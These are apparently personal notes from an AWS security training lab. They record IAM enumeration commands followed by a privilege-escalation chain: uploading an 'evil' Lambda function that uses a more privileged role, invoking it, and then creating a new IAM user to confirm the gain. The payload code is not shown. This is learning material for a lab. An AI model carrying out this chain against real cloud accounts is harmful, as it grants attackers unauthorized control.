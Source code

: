 

Listing attached user policies
`aws iam list-attached-user-policies --user-name student`
Retrieving user policy details
`aws iam list-user-policies --user-name student`
![[Pasted image 20210503160255.png]]
`aws iam get-user-policy --user-name student --policy-name terraform-2021021213362984700000001`
![[Pasted image 20210503160428.png]]

Finding Lambda Role details
`aws iam list-roles`
![[Pasted image 20210503160602.png]]
`aws iam get-role --role-name lab11lambdaiam`
![[Pasted image 20210503160706.png]]
`aws iam list-role-policies --role-name lab11lambdaiam`
![[Pasted image 20210503160827.png]]
`aws iam get-role-policiy --role-name lab11lambdaiam policy-name terraform-2021021213362984700000001`
![[Pasted image 20210503161024.png]]

Creating or lambda function
![[Pasted image 20210503161124.png]]
`zip evil-function.zip evil.py`

`aws lambda create-function --function-name evil-function --runtime python3.8 --zip-file fileb://evil-function.zip --handler evil.handler --role arn:aws:iam::645723898191:role/lab11lambdaiam`
![[Pasted image 20210503183020.png]]
Invoking the lambda function
`aws lambda invoke --function-name evil-function output.txt`
![[Pasted image 20210503183159.png]]

Confirming escalated privileges
`aws iam create-user --user-name Bob`
![[Pasted image 20210503183326.png]]
